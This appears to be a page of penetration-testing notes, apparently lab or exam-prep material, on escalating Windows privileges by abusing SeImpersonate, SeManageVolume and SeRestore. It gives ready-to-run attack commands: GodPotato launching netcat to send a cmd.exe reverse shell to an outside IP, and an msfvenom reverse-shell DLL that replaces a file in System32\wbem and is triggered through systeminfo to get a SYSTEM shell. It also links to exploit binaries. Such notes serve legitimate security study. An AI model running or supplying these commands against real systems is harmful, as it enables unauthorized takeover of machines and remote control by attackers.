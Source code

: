 ```powershell
C:\Users\svc_mssql>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled

```

### SeImpersonatePrivilege

{% embed url="https://github.com/BeichenDream/GodPotato" %}

```powershell
.\GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

### SeManageVolumePrivilege

Running this exploit allows us RWX access to C:\ drive. We can create any PE or dll and execute it. To gain SYSTEM we can replace a dll with a malicious one.

{% embed url="https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public" %}

Run exploit

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\Users\svc_mssql> .\SeManageVolumeExploit.exe
</strong></code></pre>

#### Create malicious dll & replace it in C:\Windows\System32\wbem\\

```shell-session
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.211 LPORT=6666 -f dll -o tzres.dll
```

#### Execute systeminfo (triggering malcious dll). We get a SYSTEM shell back to our listener.

```powershell
PS> systeminfo
```



### SeRestorePrivilege

Run [EnableSeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1) and you will have access to C:\Windows\System32. If that doesn't work, sometimes it doesn't we can use [SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse) exploit. We can build it in our devbox.
